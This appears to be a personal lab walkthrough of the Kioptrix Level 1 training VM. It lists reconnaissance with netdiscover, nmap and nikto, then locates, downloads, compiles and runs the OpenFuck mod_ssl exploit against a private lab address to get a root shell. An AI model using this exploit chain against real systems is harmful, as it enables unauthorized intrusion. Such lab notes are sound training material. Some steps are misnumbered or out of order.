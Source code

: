 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/d11-05-mar/kioptrix-level-1/"}
---
```


# **Kioptrix Level 1**

1) ifconfig {note down your ip}
2) net discover -r 192.168.5.60(your ip )
![attachments/Pasted image 20250319185539.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319185539.png)

3) nmap -Pn 192.168.5.203  {to find the target ip }
![attachments/Pasted image 20250319190100.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190100.png)

4) nmap -T4 -sC -sV -v -Pn 192.168.5.203 -oN kioptrix
![attachments/Pasted image 20250319190124.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190124.png)

5) cat kioptrix | grep open
![attachments/Pasted image 20250319190134.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190134.png)

6) disable the burp in firefox
![attachments/Pasted image 20250319190148.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190148.png)

7) hit the target ip in firebox browswer : 192.168.5.203
![attachments/Pasted image 20250319190206.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190206.png)

8) nikto -h http://192.168.5.203
![attachments/Pasted image 20250319190218.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190218.png)

9) nikto -h http://192.169.5.203
![attachments/Pasted image 20250319190229.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190229.png)

10) nikto -h http://192.168.5.203 > kiopritix_nikto → then control+c
![attachments/Pasted image 20250319190244.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190244.png)

11) searchsploit mod ssl 2.8.4
![attachments/Pasted image 20250319190257.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190257.png)

12) searchsploit -m 47080
![attachments/Pasted image 20250319190308.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190308.png)

13) apt update
14) open github link in firefox of kali : [openfuck github link](https://github.com/RafaelM1994/InfoSec/blob/master/c_files/openfuck_updated.c) and download.
![attachments/Pasted image 20250319190335.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190335.png)

15) apt-get install libssl-dev
16) cd Downloads -> ls -l
![attachments/Pasted image 20250319190355.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190355.png)

17) gcc -o openfuck openfuck_updated.c -lcrypto
![attachments/Pasted image 20250319190418.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190418.png)

18) ./openfuck 0x6b 192.168.5.203 443 -c 40
![attachments/Pasted image 20250319190430.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190430.png)

19) type id
![attachments/Pasted image 20250319190440.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190440.png)
- you got the root access !! 👾🥷🔪

19) nano 47080.c
![attachments/Pasted image 20250319190505.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190505.png)

20) then ctrl + F → https
![attachments/Pasted image 20250319190523.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190523.png)

21) edit the https → http → ctrl +s → ctrl + x
![attachments/Pasted image 20250319190540.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190540.png)

22) ./openfuck 0x6b 192.168.5.203 443 -c 40
![attachments/Pasted image 20250319190552.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190552.png)

23) type id
![attachments/Pasted image 20250319190604.png](/img/user/Cybersecurity/Pentesting/D11_05%20Mar/attachments/Pasted%20image%2020250319190604.png)

#                                    ---****---

